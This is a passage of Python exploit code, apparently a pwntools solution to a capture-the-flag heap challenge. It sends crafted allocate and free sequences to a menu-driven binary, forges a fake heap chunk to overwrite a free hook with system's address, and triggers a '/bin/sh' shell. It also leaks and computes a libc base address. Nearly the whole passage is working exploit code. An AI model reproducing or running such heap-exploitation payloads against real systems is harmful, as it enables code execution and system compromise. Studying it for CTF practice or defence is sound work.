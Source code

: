 ```python
    payload = map(0x10, 0x10)
    payload += new(0, 4, 0x10, 'a')
    payload += new(0, 1, 0x60, 'a')
    payload += new(0, 2, 0x60, '/bin/sh\x00')
    payload += new(0, 3, 0x60, 'a')
    payload += set(0xf, 8, 2)
    payload += b's' + b'd' * 8 + b'ws'*0x2c + b's' * 0x30

    fakechunk = flat(0, 0, 0, 0x71, hfree)
    # fakechunk = '1'*8
    payload += dele(0, 3) 
    payload += dele(0, 1) 
    payload += dele(0, 4) 
    payload += new(0, 0, 0x80, fakechunk)
    payload += new(0, 1, 0x60, '2')
    payload += new(0, 8, 0x60, p64(system))
    payload += dele(0, 2)


    sla("cmd>", payload)

    for i in data:
        sl(i)

def exp():
    payload = b''
    payload += map(0x10, 0x10)
    payload += add(0, 4, 0x10)
    payload += add(0, 1, 0x60)
    payload += add(0, 2, 0x60)
    payload += add(0, 3, 0x60)

    for i in range(8):
        payload += add(1, i+1, 0x90)
    payload += add(2, 1, 0x10)
    for i in range(8):
        payload += dele(1, i+1)
    for i in range(8):
        payload += add(1, i+1, 0x90)
    payload += show()

    for i in range(8):
        payload += dele(1, i+1)
    payload += set(0xf, 8, 2)
    payload += b's' + b'd' * 8 + b'ws'*0x2c + b's' * 0x30

    payload += dele(0, 3) 
    payload += dele(0, 1) 
    payload += dele(0, 4) 
    payload += add(0, 0, 0x80)
    payload += add(0, 1, 0x60)
    payload += add(0, 8, 0x60)
    payload += dele(0, 2)

    sla("cmd>", payload)

    for i in range(4):
        sl('/bin/sh\x00')
    for i in range(2*8+1):
        sl('a' * 7)

    ru('pos:1,8\n'+'a'*7+'\n')
    blibc = u64(cn.recvuntil('\npos:', True).ljust(8, b'\x00')) + 0x4000000000 - 0x154ad0
```
